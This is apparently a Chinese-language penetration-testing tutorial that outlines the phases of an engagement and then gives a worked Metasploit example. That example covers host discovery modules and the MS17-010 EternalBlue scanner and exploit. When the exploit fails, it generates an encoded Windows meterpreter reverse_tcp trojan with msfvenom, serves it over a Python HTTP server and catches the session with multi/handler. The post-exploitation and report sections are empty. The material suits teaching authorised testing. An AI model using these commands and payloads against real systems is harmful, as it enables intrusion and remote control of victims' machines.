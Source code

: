 # 一、阶段划分：

漏洞利用分为 前期交互   情报搜集 威胁建模  漏洞分析  .渗透利用  后渗透利用 报告 这几个阶段

## 1.前期交互阶段：

与客户组织进行交互讨论，确定范围，目标等

​这个阶段大家可以理解为情报收集前阶段，主要是为了找到目标 确认范围

![[1643165117094.png]]

## 2.情报搜集阶段：

获取更多目标组织信息，

外围信息搜索   -    Google

![[1643165139006.png]]

​          主机探测与端口扫描         如 -Nmap

​           服务扫描       利用metasploit中的auxiliary/scanner/中的服务扫描模块，可以对靶机中的服务版本等信息进行扫描

​            网络漏洞扫描   -OpenVAS、Nessus等

​             其他工具扫描  py脚本扫描

## 3.威胁建模阶段：

理清头绪，确定出最可行的漏洞利用通道，这个建模阶段写的文档不是给自己看的 是给整个团队看的 方便多人合作

![[1643165166875.png]]

​这个阶段主要是根据收集到的情报进行整理 ，理清漏洞利用思路。

## 4.漏洞分析阶段：

搜索可获取的渗透代码资源

![[1643165182827.png]]

​           这个阶段主要 挑选匹配可能存在的漏洞利用模块，shellcode

## 5.渗透利用阶段：

找出安全漏洞，入侵系统

​          这个阶段尝试利用漏洞 ，配置监控，开始漏洞利用

## 6.后渗透利用阶段：

Meterpreter，实施操作

​            这个阶段 就开始实施相关数据下载 后门维持  提权等操作

## 7.报告阶段：

漏洞利用渗透测试报告  （详细报告编写看 渗透测试报告课程）

![[1643165204135.png]]

这个阶段主要是对本次渗透进行总结，概述总体上包括 时间、人员、漏洞利用范围、技术手段等等。我们需要在这部分确定漏洞利用执行的时间范围、参与漏洞利用的人员及联系方式、约定的漏洞利用范围和一些漏洞利用过程中采用的技术、工具描述。写清  前期交互   情报搜集 威胁建模  漏洞分析  .渗透利用  后渗透利用  漏洞利用结果 安全建议 等内容

在撰写的过程中，需要特别注意的是：漏洞描述切忌不可过于简单，一笔带过；在安全建议部分避免提出没有实际意义的安全建议，比如加强安全意识；报告结构混乱不堪，太多复杂的专业术语，比如绕狗、x站等等；

# 二、实际操作（举例）

主机范围和目标已确定

1 情报搜集

基于msf发现内网存活主机
search 搜索
msf终端内输入 search scanner type:auxiliary
可用于发现主机的模块

auxiliary/scanner/discovery/arp_sweep # 基于ARP发现内网存活主机

auxiliary/scanner/discovery/udp_sweep # 基于UDP发现内网存活主机

auxiliary/scanner/ftp/ftp_version # 发现FTP服务

auxiliary/scanner/http/http_version # 发现HTTP服务

auxiliary/scanner/smb/smb_version # 基于smb发现内网存活主机

基于netbios发现内网存活主机

基于snmap发现内网存活主机

基于ICMP发现内网存活主机

2  威胁建模
经过第一步情报收集 我们通过 arp 发现了 目标机器 ip

然后通过对目标机器的 ip 扫描  我们知道了  目标机器开通了 80端口  有web服务  开了 ftp 端口  有文件服务

开了 smb

最终决定对smb相关的漏洞进行利用

备选方案通过植入木马的方式进行利用

---

3   漏洞分析

第一步先查看smb利用漏洞有哪些  比如永恒之蓝

1 查询msf与永恒之蓝相关的 模块

使用命令    search ms17_010

2 然后我们利用了一个永恒之蓝的 扫描模块

use auxiliary/scanner/smb/smb_ms17_010

3  输入  options  查看扫描模块需要配置的参数

3.1 然后我们配置了rhost  （rhost指的是目标主机ip）

set rhost   ip

4 然后我们执行扫描 输入  run

发现了 可能存在漏洞的主机

4  渗透利用

---

1 加载 永恒之蓝漏洞利用模块

use exploit/windows/smb/ms17_010_eternalblue

2  输入  options  查看扫描模块需要配置的参数

3.1 然后我们配置了rhost  （rhost指的是目标主机ip）

set rhost   ip

3.2 然后我们配置了  lhost （lhost指的是  监控主机或攻击机 ip）

set lhost   ip

3.3 然后我们配置了 lport  （指的是监控的端口 ）

set lport   ip

注意端口必须没有被占用

4 然后我们执行扫描 输入  run 执行永恒之蓝漏洞利用

但是发现失败  提示 模块已经利用了  但是没有返回对应 session

![[bffdb79061ad4b0aa92d2dfde83e9f1b.png]]

5  备选方案通过植入木马的方式进行利用

---

1  我们知道目标机器是win系统  所以使用msfvenom  生成一个win平台的木马

msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp

LHOST=192.168.3.33 LPORT=4446 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 10  -f exe -o payload.
2 漏洞生成后  通过启动一个py服务将木马上传到目标机器

python -m SimpleHTTPServer 80

3 配置监控程序我们使用了

use exploit/multi/handler

3 输入 options进入配置

3.1 然后我们配置了  lhost （lhost指的是  监控主机或攻击机 ip）

set lhost   ip

3.2然后我们配置了 lport  （指的是监控的端口 ）

set lport  

注意端口必须和msfvenom 生成的木马端口一样才行

4 配置攻击载荷 payload

set payload windows/meterpreter/reverse_tcp

5 执行利用等待目标机器执行木马

6 目标机器执行了木马

利用成功并获得 meterpreter

5  后渗透利用

6  报告阶段